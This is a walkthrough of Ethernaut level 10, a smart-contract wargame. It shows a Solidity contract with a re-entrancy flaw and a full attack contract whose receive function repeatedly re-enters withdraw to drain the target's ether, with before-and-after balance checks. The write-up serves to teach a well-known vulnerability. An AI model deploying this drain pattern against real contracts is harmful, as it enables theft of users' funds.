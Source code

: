 # Level 10: Re-entrancy

This is the level 10 of [Ethernaut](https://ethernaut.openzeppelin.com/) game.

## Pre-requisites
- Solidity contract [receive](https://ethereum.stackexchange.com/questions/81994/what-is-the-receive-keyword-in-solidity/81995) function
- [call](https://docs.soliditylang.org/en/v0.6.0/types.html#address) method of addresses
- [Re-entrancy Attack](https://consensys.github.io/smart-contract-best-practices/known_attacks/) on Ethereum

## Hack

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

`player` has to steal all of the contract's funds.

To those interested, the Re-entrancy attack was responsible for the [infamous DAO hack of 2016](https://www.gemini.com/cryptopedia/the-dao-hack-makerdao#section-what-is-a-dao) which shook the whole Ethereum community. $60 million dollars of funds were stolen. Later, Ethereum blockchain was hard forked to restore stolen funds, but not all parties consented to decision. That led to splitting of network into distinct chains - Ethereum and Ethereum Classic.

First let's see amount stored in `Reentrace`:
```javascript
await getBalance(contract.address)

// Output: '0.001'
```

which is `0.001` ether or `1000000000000000` wei.

We're going to attack `Reentrance` with our written contract `ReentranceAttack`. Deploy it with target contract (`Reentrance`) address:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface IReentrance {
    function donate(address _to) external payable;
    function withdraw(uint _amount) external;
}

contract ReentranceAttack {
    address public owner;
    IReentrance targetContract;
    uint targetValue = 1000000000000000;

    constructor(address _targetAddr) public {
        targetContract = IReentrance(_targetAddr);
        owner = msg.sender;
    }

    function balance() public view returns (uint) {
        return address(this).balance;
    }

    function donateAndWithdraw() public payable {
        require(msg.value >= targetValue);
        targetContract.donate.value(msg.value)(address(this));
        targetContract.withdraw(msg.value);
    }

    function withdrawAll() public returns (bool) {
        require(msg.sender == owner, "my money!!");
        uint totalBalance = address(this).balance;
        (bool sent, ) = msg.sender.call.value(totalBalance)("");
        require(sent, "Failed to send Ether");
        return sent;
    }

    receive() external payable {
        uint targetBalance = address(targetContract).balance;
        if (targetBalance >= targetValue) {
          targetContract.withdraw(targetValue);
        }
    }
}
```

Now call `donateAndWithdraw` of `ReentranceAttack` with value of `1000000000000000` (`0.001` ether) and chain reaction starts:
- First `targetContract.donate.value(msg.value)(address(this))` causes the `balances[msg.sender]` of `Reentrance` to set to sent amount. `donate` of `Reentrance` finishes it's execution
- Immediately after, `targetContract.withdraw(msg.value)` invokes withdraw of `Reentrance`, which sends the same donated amount back to `ReentranceAttack`.
- `receive` of `ReentranceAttack` is invoked. Note that `withdraw` hasn't finished execution yet! So still `balances[msg.sender]` is equal to initially donated amount. Now we call `withdraw` of `ReentranceAttack` again in receive.
- Second invocation of `withdraw` executes and it's passes the `require` statement this time again! So, it sends the `msg.sender` (`ReentranceAttack` address) that amount again!
- Simple arithmetic plays out and recursive execution is halted only when balance of `Reentrance` is reduced to 0.

And for the final blow withdraw stolen amount currently stored in `ReentranceAttack` to `player` address by calling `withdrawAll`.

Verify by checking `Reentrance`'s balance:
```javascript
await getBalance(contract.address)

// Output: '0'
```

Hacked!